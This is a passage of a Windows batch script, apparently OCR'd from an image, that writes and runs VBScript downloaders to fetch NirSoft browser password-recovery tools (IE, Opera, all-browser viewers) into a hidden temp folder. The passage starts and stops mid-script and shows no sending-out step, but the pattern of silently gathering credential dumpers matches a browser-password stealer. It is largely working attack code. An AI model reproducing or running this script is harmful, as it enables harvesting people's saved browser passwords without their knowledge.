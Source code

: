 ```
echo objADOStream.Open >> %temp%\freak\fire.vbs
echo objADOStream.Type = 1 >> %temp%\freak\fire.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> %temp%\freak\fire.vbs
echo objADOStream.Position = 0 >> %temp%\freak\fire.vbs
echo Set objFSO = Createobject("Scripting.FileSystemObject") >> %temp%\freak\fire.vbs
echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> %temp%\freak\fire.vbs
echo Set objFSO = Nothing >> %temp%\freak\fire.vbs
echo objADOStream.SaveToFile strHDLocation >> %temp%\freak\fire.vbs
echo objADOStream.Close >> %temp%\freak\fire.vbs
echo Set objADOStream = Nothing >> %temp%\freak\fire.vbs
echo End if >> %temp%\freak\fire.vbs
echo Set objXMLHTTP = Nothing >> %temp%\freak\fire.vbs
call %temp%\freak\fire.vbs

::Download IE::
echo strFileURL = "http://www.nirsoft.net/utils/iepv.zip" > %temp%\freak\ie.vbs
echo strHDLocation = "%temp%\freak\iepv.zip" >> %temp%\freak\ie.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> %temp%\freak\ie.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> %temp%\freak\ie.vbs
echo objXMLHTTP.send() >> %temp%\freak\ie.vbs
echo If objXMLHTTP.Status = 200 Then >> %temp%\freak\ie.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> %temp%\freak\ie.vbs
echo objADOStream.Open >> %temp%\freak\ie.vbs
echo objADOStream.Type = 1 >> %temp%\freak\ie.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> %temp%\freak\ie.vbs
echo objADOStream.Position = 0 >> %temp%\freak\ie.vbs
echo Set objFSO = Createobject("Scripting.FileSystemObject") >> %temp%\freak\ie.vbs
echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> %temp%\freak\ie.vbs
echo Set objFSO = Nothing >> %temp%\freak\ie.vbs
echo objADOStream.SaveToFile strHDLocation >> %temp%\freak\ie.vbs
echo objADOStream.Close >> %temp%\freak\ie.vbs
echo Set objADOStream = Nothing >> %temp%\freak\ie.vbs
echo End if >> %temp%\freak\ie.vbs
echo Set objXMLHTTP = Nothing >> %temp%\freak\ie.vbs
call %temp%\freak\ie.vbs

::Download Opera::
echo strFileURL = "http://www.nirsoft.net/utils/operapassview.zip" > %temp%\freak\opera.vbs
echo strHDLocation = "%temp%\freak\operapassview.zip" >> %temp%\freak\opera.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> %temp%\freak\opera.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> %temp%\freak\opera.vbs
echo objXMLHTTP.send() >> %temp%\freak\opera.vbs
echo If objXMLHTTP.Status = 200 Then >> %temp%\freak\opera.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> %temp%\freak\opera.vbs
echo objADOStream.Open >> %temp%\freak\opera.vbs
echo objADOStream.Type = 1 >> %temp%\freak\opera.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> %temp%\freak\opera.vbs
echo objADOStream.Position = 0 >> %temp%\freak\opera.vbs
echo Set objFSO = Createobject("Scripting.FileSystemObject") >> %temp%\freak\opera.vbs
echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> %temp%\freak\opera.vbs
echo Set objFSO = Nothing >> %temp%\freak\opera.vbs
echo objADOStream.SaveToFile strHDLocation >> %temp%\freak\opera.vbs
echo objADOStream.Close >> %temp%\freak\opera.vbs
echo Set objADOStream = Nothing >> %temp%\freak\opera.vbs
echo End if >> %temp%\freak\opera.vbs
echo Set objXMLHTTP = Nothing >> %temp%\freak\opera.vbs
call %temp%\freak\opera.vbs

::Download All:
echo strFileURL = "http://nirsoft.net/utils/webbrowserpassview.zip" > %temp%\freak\all.vbs
```